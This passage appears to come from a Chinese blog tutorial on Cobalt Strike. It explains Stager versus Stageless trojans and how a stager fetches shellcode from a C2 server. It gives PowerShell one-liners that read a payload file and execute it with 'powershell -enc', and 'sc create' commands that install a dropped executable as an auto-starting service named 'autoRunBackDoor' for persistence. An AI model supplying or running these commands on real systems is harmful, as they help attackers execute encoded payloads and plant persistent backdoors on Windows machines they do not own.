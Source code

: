 

![](https://img-blog.csdnimg.cn/20210318163710504.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



```
如果是执行当前路径      
powershell;$a=Get-Content payload.txt;powershell -enc $a       
如果是执行指定路径      
powershell;$a=Get-Content -Path "E:\payload.txt";powershell -enc $a
```




![](https://img-blog.csdnimg.cn/20210318164334231.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/2021031816472657.png)



### Windows Executable & Windows Executable(S)　



这两个模块直接用于生成可执行的 exe 文件或 dll 文件。Windows Executable是生成Stager类型的马，而Windows Executable(S) 是生成Stageless类型的马。那Stager和Stageless有啥区别呢？



*   Stager是分阶段传送Payload。分阶段啥意思呢？就是我们生成的Stager马其实是一个小程序，用于从服务器端下载我们真正的shellcode。分阶段在很多时候是很有必要的，因为很多场景对于能加载进内存并成功漏洞利用后执行的数据大小存在严格限制。所以这种时候，我们就不得不利用分阶段传送了。如果不需要分阶段的话，可以在C2的扩展文件里面把 host\_stage 选项设置为 false。

*   而Stageless是完整的木马，后续不需要再向服务器端请求shellcode。所以使用这种方法生成的木马会比Stager生成的木马体积要大。但是这种木马有助于避免反溯源，因为如果开启了分阶段传送，任何人都能连接到你的C2服务器请求payload，并分析payload中的配置信息。在CobaltStrike4.0及以后的版本中，后渗透和横向移动绝大部分是使用的Stageless类型的木马。



Windowss Executable(S)相比于Windows Executable，其中包含Beacon的完整payload，不需要阶段性的请求，该模块额外提供了代理设置，以便在较为苛刻的环境中进行渗透测试。该模块还支持powershell脚本，可用于将Stageless Payload注入内存。



![](https://img-blog.csdnimg.cn/20200531173821807.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200531173903406.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



注意，生成的Windows Service EXE生成的木马，直接双击是不会返回session的。需要以创建服务的方式启动，才会返回session。



```
#注意，等号（=）后面要有空格      
sc create autoRunBackDoor binPath= "cmd.exe /c C:\users\administrator\desktop\cs.exe" start= auto DisplayName= autoRunBackDoor      
#开启某个系统服务      
sc start autoRunBackDoor       
#停止某个系统服务      
sc stop autoRunBackDoor       
# 删除某个系统服务      
sc delete service_name
```
